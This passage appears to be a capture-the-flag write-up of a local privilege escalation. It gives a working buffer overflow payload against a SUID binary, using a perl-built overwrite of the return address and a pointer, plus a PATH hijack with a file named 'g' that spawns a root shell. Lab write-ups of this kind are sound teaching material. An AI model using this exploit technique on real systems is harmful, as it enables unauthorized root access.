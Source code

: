 When I debug normal execution using the `deadbeef` password, then I can see the pointer used for the `system` function

![evidence](./static/16-gdb-structure.png)

And identified that pointer is within the range of the overflow, and if I overwrite the return address to the shell function
And also overwrite the pointer used by the system to other text, and I put that string as a bash command, then I could run custom bash commands as the root user, and because of this, I search for a string in the code
When I run in `gdb`:
```shell
(gdb) x/s 0x08049268
0x8049268 <main+79>:  "g"
```
And now I use that address, but when I jump to the shell function the pointer is 4 bytes ahead, and I need to add 4 bytes of padding, when I run the command:
```shell
$ ./printauthlog $(perl -e \
> 'print "A"x68 . "\xa2\x91\x04\x08" . "B"x4 . "\x68\x92\x04\x08"')

sh: 1: g: not found
Segmentation fault
```
And it fails, it is because `sh` did not identify the `g` file in the `PATH` `env`. When I am in the target user's shell, and I added `/home/user` to the PATH:
```shell
$ user@Overflow:/home/user$ export PATH=/home/user:$PATH
```
And I created a file called `g` with the `id` command:
```shell
$ user@Overflow:/home/user$ echo id > g
```
And I give it execution permissions:
```shell
$ user@Overflow:/home/user$ chmod +x g
```
And I execute the same payload used previously, then I got:
```shell
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user),24(cdrom),
25(floppy),29(audio),30(dip),44(video),46(plugdev),
108(netdev),112(bluetooth)
```
And I can see the euid=0 with root permissions, when I save the following command in file `g`:
```shell
user@Overflow:/home/user$ echo "/bin/sh" > g
```
And I run the same payload, then I spawn a new shell with `euid=0(root)`, and I can access the `/root` directory, and I found the root flag :
